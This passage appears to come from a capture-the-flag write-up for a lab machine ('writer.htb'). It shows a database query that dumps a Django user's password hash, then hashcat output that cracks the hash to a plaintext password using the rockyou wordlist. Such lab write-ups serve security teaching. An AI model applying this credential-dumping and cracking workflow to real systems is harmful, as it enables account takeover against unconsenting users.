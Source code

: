 ```bash
MariaDB [dev]> select * from auth_user;
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
| id | password                                                                                 | last_login | is_superuser | username | first_name | last_name | email           | is_staff | is_active | date_joined                |
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
|  1 | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= | NULL       |            1 | kyle     |            |           | kyle@writer.htb |        1 |         1 | 2021-05-19 12:41:37.168368 |
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
1 row in set (0.000 sec)

MariaDB [dev]>
```

Searching for Django hashing algorithm in hashcat:

```bash
$ hashcat -h | grep Django                                                                                                                                                                                                           
  10000 | Django (PBKDF2-SHA256)                           | Framework
    124 | Django (SHA-1)                                   | Framework
```

```bash
pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Django (PBKDF2-SHA256)
Hash.Target......: pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8...uXM4A=
Time.Started.....: Tue Aug 17 14:18:48 2021 (11 mins, 41 secs)
Time.Estimated...: Tue Aug 17 14:30:29 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       13 H/s (11.85ms) @ Accel:32 Loops:512 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 9408/14344385 (0.07%)
Rejected.........: 0/9408 (0.00%)
Restore.Point....: 9312/14344385 (0.06%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:259584-259999
Candidates.#1....: Jonathan -> 120287

Started: Tue Aug 17 14:18:46 2021
Stopped: Tue Aug 17 14:30:32 2021
```
